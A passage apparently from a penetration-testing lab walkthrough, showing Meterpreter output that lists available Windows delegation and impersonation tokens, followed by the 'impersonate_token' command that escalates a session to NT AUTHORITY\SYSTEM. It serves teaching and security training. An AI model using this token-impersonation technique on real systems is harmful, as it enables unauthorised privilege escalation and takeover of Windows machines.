 ```shell-session
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\swprv
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\VSS
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

Since the `BUILTIN\Administrators` token is available, we can use the following command to impersonate the admin token:
```shell-session
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```
